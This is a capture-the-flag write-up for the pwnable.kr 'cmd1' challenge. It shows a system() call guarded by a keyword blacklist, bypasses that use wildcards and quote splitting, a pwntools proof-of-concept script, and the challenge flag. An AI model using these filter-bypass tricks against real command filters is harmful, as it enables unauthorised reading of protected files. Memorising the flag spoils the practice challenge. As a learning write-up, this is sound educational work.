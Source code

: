 # pwnable.kr cmd1 writeup (1 pt)

```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

Alright, let's connect to the target server.

# 0x01 Binary Enumeration

```bash
cmd1@prowl:~$ ls -la
total 40
drwxr-x---   5 root cmd1     4096 Mar 23  2018 .
drwxr-xr-x 116 root root     4096 Nov 12 21:34 ..
d---------   2 root root     4096 Jul 12  2015 .bash_history
-r-xr-sr-x   1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r--   1 root root      320 Mar 23  2018 cmd1.c
-r--r-----   1 root cmd1_pwn   48 Jul 14  2015 flag
dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
cmd1@prowl:~$ 
```

We have the vulnerable binary, the source code & the flag file. Let's start by analyzing the source code.

```C
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

As we can see we have 2 functions, the main() & the filter() function. At filter function we can see that words `flag`, `sh`, `tmp` are blacklisted & we can't use them. We have to find a way to bypass that.

# 0x02 Exploitation + PoC

+ 1way Wildcards

```bash
cmd1@prowl:~$ ./cmd1 "/bin/cat *"
rand0000m_sh1tz_l0l
mommy now I get what PATH environment is for :)
```


```bash
cmd1@prowl:~$ ./cmd1 "/bin/cat fl?g"
mommy now I get what PATH environment is for :)
```

+ 2way single quotes

```bash
cmd1@prowl:~$ ./cmd1 "/bin/cat f'la'g"
mommy now I get what PATH environment is for :)
```

I wrote a simple PoC with pwntools.

```python
#!/usr/bin/env python
from pwn import *

shell = ssh('cmd1', 'pwnable.kr', password='guest', port=2222)
sh = shell.run('./cmd1 "/bin/cat fla?"')
log.success("Flag : " + sh.recvline())
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop# python cmd1.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd1@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Opening new channel: './cmd1 "/bin/cat fla?"': Done
[+] Flag : mommy now I get what PATH environment is for :)
[*] Closed SSH channel with pwnable.kr
```

Flag : `mommy now I get what PATH environment is for :)`

-pwn4magic
